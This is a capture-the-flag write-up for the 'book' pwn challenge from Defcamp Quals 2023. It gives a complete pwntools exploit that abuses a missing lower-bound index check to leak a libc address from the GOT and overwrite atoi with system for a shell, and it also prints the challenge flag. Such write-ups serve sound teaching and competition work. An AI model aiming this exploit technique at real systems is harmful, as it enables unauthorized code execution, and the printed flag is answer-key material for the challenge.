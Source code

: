 ```yaml
---
title: book
type: writeup
date: 2023-10-22T09:56:31+03:00
description: Writeup for book [Defcamp Quals 2023]
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Read books for inspiration so you know what to write!

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec book
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   74 Symbols	  No	0		4		book
```
We have PIE enabled but Partial RELRO. Partial RELRO might mean that we will overwrite GOT entries.

We decompile the binary and find a missing lower bound check for the index of the entry we read/write. We have arbitrary read/write primitives before the address of the todos list. Luckily, the GOT entries are before it. The main idea would be to leak a libc address, find the libc version and overwrite a function with ``system``.

### Solution

We can only leak an arbitrary amount of bytes, until a null byte is found, with the ``printf`` found in ``print_todo``.

```c
void print_todo(void)

{
  int iVar1;
  
  printf("Which entry would you like to read? ");
  fflush(stdout);
  iVar1 = read_int();
  if (iVar1 < 0x81) {
    printf("Your NOTE: %s\n",todos + iVar1 * 0x30);
  }
  else {
    puts("Sorry but this model only supports 128 NOTE list entries.\n");
  }
  return;
}
```
The catch is, we can only read at offsets of ``0x30`` bytes from the beginning of the ``todos``. Luckily it is perfectly aligned with some GOT functions, but the ``"%s"`` format string will run into some issues if it finds the null byte. We choose to leak open as it is perfectly aligned at an offset of ``-4 * 0x30``. We get the address, determine the libc version manually using [libc database](https://libc.blukat.me/) and then determine the offset to ``system`` from ``open``. Luckily we only need the lower 3 bytes of the address from the leak, so the ``"%s"`` format won’t be too inconvenient.

We can use ``store_todo`` to write, again at offsets of ``0x30`` bytes from ``todos``. Below you can find a commented version of the exploit:

```py
#!/usr/bin/env python3

from pwn import *

target = process("./book")
#target = remote("34.89.131.150", 30325)

# Different offsets on local/remote
is_remote = False
if is_remote:
    # libc6_2.31-0ubuntu9.9_amd64 
    system_offset = -0xbba50
else:
    system_offset = -801120

# Addresses found in .got.plt and .data
# PIE is enabled but we write relative to todos address and it will be fine
todos_addr = 0x00104140
open_gotplt_addr = 0x00104080

# Function to transform offsets to indices for todos
def get_offset_idx(addr):
    return (addr - todos_addr) // 48

# Leak open address using arbitrary read primitive
target.sendline(b"sunbather")
target.sendline(b"2")
idx = get_offset_idx(open_gotplt_addr)
target.sendline(str(idx).encode())
target.recvuntil(b"Your NOTE: ")
leak = target.recvline().strip()
print(hex(leak[0]), hex(leak[1]))

# somewhere here we can manually search for the libc version

# Determine system address
open_addr = int.from_bytes(leak, byteorder="little")
system_addr = open_addr + system_offset

# Write relative to todos
idx = get_offset_idx(open_gotplt_addr)
target.sendline(b"3")
target.sendline(str(idx).encode())

# Overwrite GOT entry of atoi
# atoi is right next to open, which means we use the previous open leak
# to keep open intact
leak = leak + b"\x00" * (8 - len(leak)) if len(leak) < 8 else leak # this is just to make sure the leak has 8 bytes
# then overwrite atoi with system
payload = leak + p64(system_addr)

print(b"sending:" + payload)

# pop a shell ;)
target.sendline(payload)
target.interactive()
```

An important thing to add is that we choose ``atoi`` not only because it is easy to overwrite (right next to open), which allows us to keep the rest of the addresses in GOT intact, but also because the next input we give to the program will be directly passed to ``atoi``. Which means that if we replace it with ``system`` we pretty much get a shell.

#### Flag

```CTF{33b9fc73cf5667ace669b51470f10addd390f3abc6101b366ce0eaf239846fc2}```
